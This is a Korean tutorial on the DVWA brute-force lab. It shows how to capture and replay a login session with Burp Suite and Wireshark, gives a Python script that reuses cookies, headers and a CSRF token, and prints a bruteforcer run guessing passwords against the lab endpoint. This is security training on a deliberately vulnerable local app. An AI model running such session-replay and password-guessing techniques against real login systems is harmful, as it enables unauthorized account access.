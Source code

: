 # 두번째, 세션을 유지하는 방법

먼저 session을 유지하는 방법을 알아보기 위해서는 해당 페이지의 통신 과정과 통신으로 인한&#x20;

데이터가 어떻게 유지 되는지 알아야 한다.



우선 Whireshark로 통신을 보면 아래 이미지와 같다.&#x20;

/login.php로 접근을 하여 로그인이 성공이 되면 post /login.php로 통신이 이루어 지는데&#x20;

get /index.php로 자동으로 넘어가면서 메인 페이지인 /vulnerabilities/brute로 넘어가는데&#x20;

이때 통신은 get으로 바뀐다.

간단하게 말하면 POST /login.php -> /index.php -> GET /vulnerabilities/brute의 순서인 것이다.

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>



Burp Suite로, login을 성공하고나서 /vulnerabilities/brute페이지에서&#x20;

로그인을 성공하는 경우의 정상적인 통신을 캡쳐해보자&#x20;



그럼 아래 이미지와 같이 목록을 확인 할 수 있는데&#x20;

우선 URL을 보면 /login.php로 시작하여 /index.php -> /vulnerabilities/brute/ -> /vulnerabilities/brute/?username=admin\&password=password\&Login=Login 순서대로 통신이 진행되고 있는 것을 확인 할 수 있다.

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>



그럼 Request는 어떻게 통신이 진행되고 있을까?&#x20;

아래 이미지를 보자

<figure><img src="../../.gitbook/assets/Animation2.gif" alt=""><figcaption></figcaption></figure>



기본적으로 메인 로그인 후,\
cookie 값과 security, Upgrade-Insecure-Requestes가 동일하게 유지 되고

```
Cookie: PHPSESSID=949dt48p84tdrd4hbvk7b4luv5; security=low
Upgrade-Insecure-Requests: 1 
```



초록색 형광팬으로 칠해진듯한 값들이 변형을 할 수 있는 데이터 값들인데&#x20;

값을 보면 PHPSESSID, security, username, password, login, user\_token으로 분류 된다.

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>



/vulnerabilities/brute/?username=admin\&password=password\&Login=Login를&#x20;

성공하는 정상적인 로그인 성공 통신 과정은 아래와 같다.

<figure><img src="../../.gitbook/assets/Animation4 (1).gif" alt=""><figcaption></figcaption></figure>



로그인을 하고 나서 "cookie 값과 security, Upgrade-Insecure-Requestes가 동일하게 유지를 하고 있는 상태"에서 headers와 payload의 값을 추가해줘야 session이 유지되기 때문에 정상적인 통신이 가능하다. 통신에서 보면 아래 이미지처럼 여러 값이 보이는데

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

이렇게&#x20;

**payload:** username, password, login&#x20;

**cookies:** PHPSESSID, security&#x20;

**header:** Upgrade-Insecure-Requests, Accept, Referer, Accept-Encoding, Accept-Language, Connection



payload, cookies, header로 분류를 한 상태에서 통신을 시도해야 세션값이 유지가 된다.

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>



그럼, 아래 이미지와 같이 test5.py 파일을 실행하면&#x20;

Length가 4704로 통신이 OK 된 것을 확인 할 수 있으며

<figure><img src="../../.gitbook/assets/Animation5 (1).gif" alt=""><figcaption></figcaption></figure>



OK 통신이 떨어진 패킷에서 Response를 보면 'Welcome' 문구를 확인 할 수 있는데

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>



이 'Welcome' 문구는 아래 이미지와 같이 로그인이 성공 했을 때에 화면이란 것을 확인 할 수 있다.

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>



해당 Whireshark 통신은 아래와 같다.

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>



아래는 소스 코드 이다.

```
import requests

# Define proxy details
proxies = {
    "http": "http://127.0.0.1:8888",
    "https": "https://127.0.0.1:8888"
}

# Set up a session with the proxy
s = requests.Session()
s.proxies = proxies

# Define login parameters
payload = {
    "username": "admin",
    "password": "password",
    "login": "Login",
    "user_token": "953d53ac43e77219126897ef22776a26"
}

# Define cookies to be included
cookies = {
    "PHPSESSID": "rcafp0kpt1bfi1tjbtbkmckb13",
    "security": "low"
}

headers = {
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.149.128:8080",
    "Referer": "http://192.168.149.128:8080/login.php",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

payload2 = {
    "username": "admin",
    "password": "password",
    "Login": "Login"
}

headers2 = {
    "Upgrade-Insecure-Requests": "1",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.149.128:8080/vulnerabilities/brute/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

# Send a POST request to the login page with the login parameters
login_url = "http://192.168.149.128:8080/login.php"
s.post(login_url, headers=headers, cookies=cookies, data=payload)

# Make requests to other pages with the session maintained
#other_url = "http://192.168.149.128:8080/vulnerabilities/brute/"
#request = session.get(other_url)
next_url = 'http://192.168.149.128:8080/vulnerabilities/brute/'
response = s.get(next_url, params=payload2, headers=headers2, cookies=cookies)

# Use the response object to interact with the page
# if response.url == next_url:
if response.status_code == 200:
    print("Login successful!")
else:
    print("Login failed.")
```

\---&#x20;

메인 로그인을 끝낸 뒤 /vulnerabilities/brute 엔드포인트를 향해 무작위 대입 브루트포스 공격을 하는 코드는 다음의 리포에서 찾을 수 있다.&#x20;

{% embed url="https://github.com/ChoiSG/RTPSourceCodes/blob/main/web/dvwa-bruteforcer.py" %}

해당 코드를 실행시키면 다음과 같은 결과가 나온다.

```
└─# python3 dvwa-bruteforcer.py -u admin -p password -tu admin -f ./dvwa-passwd.txt -t http://127.0.0.1                                                                            
                                                                                                                                                                                   
[DEBUG] URL: http://127.0.0.1                                                                                                                                                      
[DEBUG] Username: admin                                                                                                                                                            
[DEBUG] Password: password                                                                                                                                                         
[DEBUG] Target username: admin                                                                                                                                                     
                                                                                                                                                                                   
[+] CSRF user_token found: 11aef5ee7f105ae2bd65401305bde7c3                                                                                                                        
[+] Main auth successful                                                                                                                                                           
                                                                                                                                                                                   
[+] Bruteforcing against /vulnerabilities/brute in 3 seconds...                          
                                                                                         
[*] Trying root...              
[*] Trying admin...                         
[*] Trying administrator...              
[*] Trying passwd...                                                                     
[*] Trying toor...                          
[*] Trying ubuntu...                        
[*] Trying ec2-user...                                                                   
[*] Trying secret...                                                                     
[*] Trying login...                    
[*] Trying password...                                                                   
                                                                                         
[+] Bruteforce SUCCESS! Username: admin Password: password
```



